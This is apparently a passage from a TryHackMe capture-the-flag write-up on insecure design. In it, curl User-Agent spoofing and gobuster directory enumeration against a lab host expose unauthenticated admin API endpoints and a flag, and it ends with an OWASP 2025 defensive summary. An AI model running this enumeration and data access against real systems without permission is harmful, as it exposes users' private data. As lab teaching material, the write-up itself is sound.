designed exclusively for mobile devices.                 Download our mobile app from the App Store or Google Play to access your private messages.            </div>        </div>                <button class="download-btn">Download Mobile App</button>    </div></body></html>
```

This returned a static HTML page — “SecureChat,” claiming to be mobile-only, with a message saying the app is exclusively for mobile devices and to download it from an app store.

lets test the mobile only claim .

The pageimpliesit checks your device. So we tested that assumption directly by sending two requests — one with a normal curl User-Agent, one spoofing an iPhone:

```text
curl -v http://10.80.128.18:5005/curl -v -A "Mozilla/5.0 (iPhone; CPU iPhone OS 17_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.0 Mobile/15E148 Safari/604.1" http://10.80.128.18:5005/
```

```text
❯ curl -v http://10.80.128.18:5005/curl -v -A "Mozilla/5.0 (iPhone; CPU iPhone OS 17_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.0 Mobile/15E148 Safari/604.1" http://10.80.128.18:5005/*   Trying 10.80.128.18:5005...* Established connection to 10.80.128.18 (10.80.128.18 port 5005) from 192.168.192.5 port 34880 * using HTTP/1.x> GET / HTTP/1.1> Host: 10.80.128.18:5005> User-Agent: curl/8.21.0> Accept: */*> * Request completely sent off< HTTP/1.1 200 OK< Server: Werkzeug/3.1.3 Python/3.11.14< Date: Thu, 06 Aug 2026 12:02:45 GMT< Content-Type: text/html; charset=utf-8< Content-Length: 3060< Connection: close< <!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <meta name="viewport" content="width=device-width, initial-scale=1.0">    <title>SecureChat - Mobile App</title>    <style>        * {            margin: 0;            padding: 0;            box-sizing: border-box;        }        body {            font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Oxygen, Ubuntu, Cantarell, sans-serif;            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);            min-height: 100vh;            display: flex;            align-items: center;            justify-content: center;            padding: 20px;        }        .container {            background: white;            border-radius: 20px;            box-shadow: 0 20px 60px rgba(0,0,0,0.3);            padding: 40px;            max-width: 500px;            width: 100%;            text-align: center;        }        .logo {            width: 80px;            height: 80px;            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);            border-radius: 20px;            margin: 0 auto 20px;            display: flex;            align-items: center;            justify-content: center;            font-size: 36px;        }        h1 {            color: #2c3e50;            margin-bottom: 10px;            font-size: 32px;        }        .subtitle {            color: #7f8c8d;            margin-bottom: 30px;            font-size: 16px;        }        .message {            background: #f8f9fa;            border-left: 4px solid #667eea;            padding: 20px;            border-radius: 8px;            margin-top: 20px;            text-align: left;        }        .message-title {            font-weight: 600;            color: #2c3e50;            margin-bottom: 10px;        }        .message-text {            color: #7f8c8d;            line-height: 1.6;        }        .download-btn {            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);            color: white;            padding: 15px 30px;            border: none;            border-radius: 10px;            font-size: 16px;            font-weight: 600;            cursor: pointer;            margin-top: 20px;            transition: transform 0.2s;        }        .download-btn:hover {            transform: translateY(-2px);        }    </style></head><body>    <div class="container">        <div class="logo">💬</div>        <h1>SecureChat</h1>        <p class="subtitle">Private messaging for mobile</p>                <div class="message">            <div class="message-title">Download the App</div>            <div class="message-text">                SecureChat is designed exclusively for mobile devices.                 Download our mobile app from the App Store or Google Play to access your private messages.            </div>        </div>                <button class="download-btn">Download Mobile App</button>    </div></body></html>* shutting down connection #0*   Trying 10.80.128.18:5005...* Established connection to 10.80.128.18 (10.80.128.18 port 5005) from 192.168.192.5 port 34896 * using HTTP/1.x> GET / HTTP/1.1> Host: 10.80.128.18:5005> User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 17_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.0 Mobile/15E148 Safari/604.1> Accept: */*> * Request completely sent off< HTTP/1.1 200 OK< Server: Werkzeug/3.1.3 Python/3.11.14< Date: Thu, 06 Aug 2026 12:02:46 GMT< Content-Type: text/html; charset=utf-8< Content-Length: 3060< Connection: close< <!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <meta name="viewport" content="width=device-width, initial-scale=1.0">    <title>SecureChat - Mobile App</title>    <style>        * {            margin: 0;            padding: 0;            box-sizing: border-box;        }        body {            font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Oxygen, Ubuntu, Cantarell, sans-serif;            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);            min-height: 100vh;            display: flex;            align-items: center;            justify-content: center;            padding: 20px;        }        .container {            background: white;            border-radius: 20px;            box-shadow: 0 20px 60px rgba(0,0,0,0.3);            padding: 40px;            max-width: 500px;            width: 100%;            text-align: center;        }        .logo {            width: 80px;            height: 80px;            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);            border-radius: 20px;            margin: 0 auto 20px;            display: flex;            align-items: center;            justify-content: center;            font-size: 36px;        }        h1 {            color: #2c3e50;            margin-bottom: 10px;            font-size: 32px;        }        .subtitle {            color: #7f8c8d;            margin-bottom: 30px;            font-size: 16px;        }        .message {            background: #f8f9fa;            border-left: 4px solid #667eea;            padding: 20px;            border-radius: 8px;            margin-top: 20px;            text-align: left;        }        .message-title {            font-weight: 600;            color: #2c3e50;            margin-bottom: 10px;        }        .message-text {            color: #7f8c8d;            line-height: 1.6;        }        .download-btn {            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);            color: white;            padding: 15px 30px;            border: none;            border-radius: 10px;            font-size: 16px;            font-weight: 600;            cursor: pointer;            margin-top: 20px;            transition: transform 0.2s;        }        .download-btn:hover {            transform: translateY(-2px);        }    </style></head><body>    <div class="container">        <div class="logo">💬</div>        <h1>SecureChat</h1>        <p class="subtitle">Private messaging for mobile</p>                <div class="message">            <div class="message-title">Download the App</div>            <div class="message-text">                SecureChat is designed exclusively for mobile devices.                 Download our mobile app from the App Store or Google Play to access your private messages.            </div>        </div>                <button class="download-btn">Download Mobile App</button>    </div></body></html>* shutting down connection #0
```

Result:identical response both times (sameContent-Length: 3060). This proved the server doesnotactually check the User-Agent — the "mobile only" restriction is fake, just cosmetic text on the page. No real access control exists.

Since there’s no gate to bypass, look for hidden endpoints so we gonna use a tool called gobuster with seclists word dictionary to gues the next directory , i use this but you guys can try the common one first but lets see the process anyway and we can use the common .txt file inside seclists see the result first.

let me explain how it worked first after -w is where the seclists is located on my pc it might be on diffferent rout on u so check first using find command and after that and the -x js,json is for the command to add .js or .json after every word inside to maximize the possibilty of getting one and lets run this

```text
gobuster dir -u http://10.80.128.18:5005 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x js,json
```

```text
❯ gobuster dir -u http://10.80.128.18:5005 -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt -x js,json===============================================================Gobuster v3.8.2by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)===============================================================[+] Url:                     http://10.80.128.18:5005[+] Method:                  GET[+] Threads:                 10[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt[+] Negative Status codes:   404[+] User Agent:              gobuster/3.8.2[+] Extensions:              js,json[+] Timeout:                 10s===============================================================Starting gobuster in directory enumeration mode===============================================================api/messages/admin   (Status: 200) [Size: 154]api/users            (Status: 200) [Size: 276]api/users/admin      (Status: 200) [Size: 73]Progress: 885 / 885 (100.00%)===============================================================Finished===============================================================
```

after we runthe first command i got no entry so i use another word list i think it might work and it works

so lets use that way to get inside

```text
❯ curl 10.80.128.18:5005/api/users{  "admin": {    "email": "admin@example.com",    "name": "Admin",    "role": "admin"  },  "user1": {    "email": "alice@example.com",    "name": "Alice",    "role": "user"  },  "user2": {    "email": "bob@example.com",    "name": "Bob",    "role": "user"  }}
```

we got the users info but no flag so we keep going for the others

```text
❯ curl 10.80.128.18:5005/api/users/admin{  "email": "admin@example.com",  "name": "Admin",  "role": "admin"}
```

still no flag

```text
❯ curl 10.80.128.18:5005/api/messages/admin{  "messages": [    {      "content": "Admin panel access key: THM{1NS3CUR3_D35IGN_4SSUMPT10N}",      "from": "system"    }  ],  "user": "admin"}
```

finally we got the flag after inspecting every way possible

```text
flag =THM{1NS3CUR3_D35IGN_4SSUMPT10N}
```

#### conclusion

Relationship between them:A02/A03/A04 are typically fixable with configuration, patching, or dependency changes without touching core logic. A06 usually requires redesign — you can’t patch your way out of a missing threat model.

Conclusion

Across the categories covered — A01 (Broken Access Control), A07 (Authentication Failures), A09 (Logging & Alerting Failures), and the design-flaw cluster A02/A03/A04/A06 — a pattern emerges: OWASP’s 2025 list splits vulnerabilities into two tiers.

Tier 1 — Enforcement failures (A01, A07):the apphasa security model but fails to apply it correctly per-request. Fixable at the code/middleware layer without redesign — add the ownership check, add the rate limit, regenerate the session ID.

Tier 2 — Foundational failures (A02, A03, A04, A06):the flaw predates any single request; it’s baked into how the system was configured, built, or architected. No per-request patch fixes an app that was never threat-modeled or a pipeline that trusts unverified dependencies. Requires process change: threat modeling, SBOM/dependency auditing, secure-by-default deployment, key management discipline.

Tier 3 — Detection failure (A09):independent axis. Doesn’t cause a breach itself, but determines whether Tier 1/2 failures are caught in minutes or discovered externally months later.

The unifying principle underneath all of them:every category traces back totrust granted without verification— trusting a client-supplied ID (A01), a claimed identity (A07), a third-party package (A03), a default config (A02), an algorithm choice nobody revisited (A04), an assumption that held at design time but never got challenged (A06) — with no logging layer catching the gap when it’s exploited (A09).

Practical takeaway for hardening a stack: deny-by-default + verify-every-request covers Tier 1; secure defaults + dependency/threat-modeling discipline covers Tier 2; centralized structured logging with active alerting covers Tier 3. All three tiers are required — strong authN/authZ with no logging is blind, and good logging on a system with no access control just documents the breach as it happens.

done thank you for reading
